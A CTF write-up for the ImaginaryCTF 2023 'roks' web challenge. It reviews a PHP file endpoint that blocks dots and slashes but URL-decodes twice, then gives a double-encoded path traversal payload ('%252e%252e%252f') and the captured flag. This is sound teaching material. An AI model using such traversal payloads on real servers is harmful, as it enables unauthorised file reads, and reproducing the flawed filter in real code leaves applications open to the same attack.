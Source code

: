 ```yaml
---
title: 2023 ImaginaryCTF - roks
date: 2023-07-23 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_imaginaryCTF
  - Web Exploitation
  - Path traversal
---
```


## Overview

* Points: 100

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

### Attached

[roks.zip](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_imaginaryctf/attached/roks.zip)

## Analyzation

Check the docker file first
```docker
FROM php:8-apache

RUN /usr/sbin/useradd -u 1000 user

COPY index.php /var/www/html/
COPY file.php /var/www/html/
COPY styles.css /var/www/html/
COPY stopHacking.png /var/www/html/

RUN mkdir /var/www/html/images
COPY images/* /var/www/html/images
COPY flag.png /

VOLUME /var/log/apache2
VOLUME /var/run/apache2

CMD bash -c 'source /etc/apache2/envvars && APACHE_RUN_USER=user APACHE_RUN_GROUP=user /usr/sbin/apache2 -D FOREGROUND'
```

So the flag is at root directory, and the site is at ```/var/www/html/```

Check the ```index.php```

```php
xhr.open("GET", "file.php?file=" + randomImageName, true);
```

then ```file.php```

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

So we must do directory traversal, but we cannot use dot "." or slash "/".

Also, ascii code, like

```
%2e%2e%2f
```

will not work due to
```php
$filename = urldecode($_GET["file"]);
```

## Solution

Encode one time fails, so do it twice

```
%252e%252e%252f
```

The flag is
```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```
